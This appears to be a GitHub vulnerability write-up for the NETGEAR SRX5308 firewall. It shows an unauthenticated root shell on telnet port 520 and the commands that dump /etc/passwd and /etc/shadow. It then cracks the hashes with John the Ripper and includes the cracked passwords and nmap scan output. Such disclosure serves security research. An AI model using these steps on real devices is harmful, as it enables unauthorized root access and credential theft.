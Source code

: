 # NETGEAR-ProSafe-Gigabit-Quad-WAN-SSL-VPN-Firewall-SRX5308

<img src="https://raw.githubusercontent.com/0x01369/NETGEAR-ProSafe-Gigabit-Quad-WAN-SSL-VPN-Firewall-SRX5308/main/images.jpg" class="shrinkToFit" width="700" height="284">

<img src="https://raw.githubusercontent.com/0x01369/NETGEAR-ProSafe-Gigabit-Quad-WAN-SSL-VPN-Firewall-SRX5308/main/images.png" class="shrinkToFit" width="700" height="284">

* The NETGEAR ProSAFE SRX5308 Quad WAN Gigabit SSL VPN Firewall is perfect for even the most demanding business networks. The SRX5308 features a hardware-* accelerated data flow architecture that allows for 1 Gbps of stateful firewall throughput.

*Port Scan

* An Unencrypted Telnet 

* 520/tcp  open     telnet
* | fingerprint-strings: 
* |   GetRequest: 
* |     HTTP/1.0
* |     /tmp # GET / HTTP/1.0
* |   SIPOptions: 
* |     OPTIONS sip:nm SIP/2.0
* |     Via: SIP/2.0/TCP nm;branch=foo
* |     From: <sip:nm@nm>;tag=root
* |     <sip:nm2@nm2>
* |     Call-ID: 50000
* |     CSeq: 42 OPTIONS
* |     Max-Forwards: 70
* |     Content-Length: 0
* |     Contact: <sip:nm@nm>
* |     Accept: application/sdp
* |   tn3270: 
* |     ^@IBM-3279-4-E
* |_    ^Y/tmp # IBM-3279-4-E

* telnet 192.168.1.2 520

* cat /etc/passwd

root:x:0:0:root:/root:/bin/sh
nobody:x:0:0:nobody:/nonexistent:/bin/false
showid:1lBVM0/fM8rqk:0:0:sid:/:/pfrm2.0/bin/showid.sh
admin:x:0:2:Linux User,,,:/home/admin:/pfrm2.0/bin/platform.cli
guest:x:0:1000:Linux User,,,:/home/guest:/pfrm2.0/bin/platform.cli

* cat /etc/shadow

daemon:*:13189:0:99999:7:::
root:CxqJynrkPOtP.:12374:0:99999:7:::
admin:m1LVojhaR1U5Y:11582:0:99999:7:::
guest:K7Vjga.vILkVA:11582:0:99999:7:::

* root@kali:~$ unshadow /home/root/Desktop/passwd /home/root/Desktop/shadow > /home/root/Desktop/status

root:CxqJynrkPOtP.:0:0:root:/root:/bin/sh
nobody:x:0:0:nobody:/nonexistent:/bin/false
showid:1lBVM0/fM8rqk:0:0:sid:/:/pfrm2.0/bin/showid.sh
admin:m1LVojhaR1U5Y:0:2:Linux User,,,:/home/admin:/pfrm2.0/bin/platform.cli
guest:K7Vjga.vILkVA:0:1000:Linux User,,,:/home/guest:/pfrm2.0/bin/platform.cli

* root@kali:~$ john /home/root/Desktop/status

* Loaded 2 password hashes with 2 different salts (descrypt, traditional crypt(3) [DES 128/128 SSE2])

* Proceeding with wordlist:/usr/share/john/password.lst, rules:Wordlist

* password (showid)

* password (guest)

* root@kali:~$ map -sS -sV 192.168.1.2

* Starting Nmap 7.91 ( https://nmap.org )

* PORT STATE SERVICE VERSION

* Starting Nmap 7.92 ( https://nmap.org ) at
* Nmap scan report for localhost
* Host is up (0.079s latency).
* Not shown: 65510 closed tcp ports (reset)
* PORT     STATE    SERVICE       VERSION

53/tcp   open     domain        dnsmasq 2.45
| dns-nsid: 
|_  bind.version: dnsmasq-2.45
80/tcp   open     http          Embedded HTTP Server (Cisco firewall http config)
|_http-title: Did not follow redirect to https://localhost/
|_http-server-header: Embedded HTTP Server.

443/tcp  open     ssl/https?
| ssl-cert: Subject: commonName=Netgear VPN Firewall /organizationName=Netgear Inc./countryName=US
| Not valid before: 2013-01-30T12:00:01
|_Not valid after:  2023-01-28T12:00:01
|_ssl-date: 2001-10-23T03:44:03+00:00; -20y54d07h26m45s from scanner time.

520/tcp  open     telnet
| fingerprint-strings: 
|   GenericLines: 
|     /tmp # 
|     /tmp # 
|     /tmp #
|   GetRequest: 
|     HTTP/1.0
|     /tmp # GET / HTTP/1.0
|     /bin/sh: GET: not found
|     /tmp # 
|     /tmp #
|   Help: 
|     /tmp # HELP
|     /bin/sh: HELP: not found
|     /tmp #
|   NCP, NULL: 
|     /tmp #
|   RPCCheck: 
|     ^@^@(r
|   SIPOptions: 
|     OPTIONS sip:nm SIP/2.0
|     Via: SIP/2.0/TCP nm;branch=foo
|     From: <sip:nm@nm>;tag=root
|     <sip:nm2@nm2>
|     Call-ID: 50000
|     CSeq: 42 OPTIONS
|     Max-Forwards: 70
|     Content-Length: 0
|     Contact: <sip:nm@nm>
|     Accept: application/sdp
|     /tmp # OPTIONS sip:nm SIP/2.0
|     /bin/sh: OPTIONS: not found
|     /tmp # Via: SIP/2.0/TCP nm;branch=foo
|     /bin/sh: Via:: not found
|     /tmp # From: <sip:nm@nm>;tag=root
|     /bin/sh: syntax error: unexpected ";"
|     /tmp # To: <sip:nm2@nm2>
|     /bin/sh: syntax error: unexpected newline
|     /tmp # Call-ID: 50000
|     /bin/sh: Call-ID:: not found
|     /tmp # CSeq: 42 OPTIONS
|     /bin/sh: CSeq:: not found
|     /tmp # Max-Forwards: 70
|     /bin/sh: Max-Forwards:: not found
|     /tmp # Content-Length: 0
|     /bin/sh: Content-Length:: not found
|     /tmp # Contact: <sip:nm@nm>
|     /bin/sh: syntax error: unexpected newline
|     /tmp # Accept: application/sdp
|     /bin/sh: Accept:: not found
|     /tmp # 
|     /tmp #
|   tn3270: 
|     ^@IBM-3279-4-E
|_    ^Y/tmp # IBM-3279-4-E

7911/tcp open     omapi         ISC (BIND|DHCPD) OMAPI
9725/tcp open     unknown

Host script results:
|_clock-skew: -7359d08h26m45s










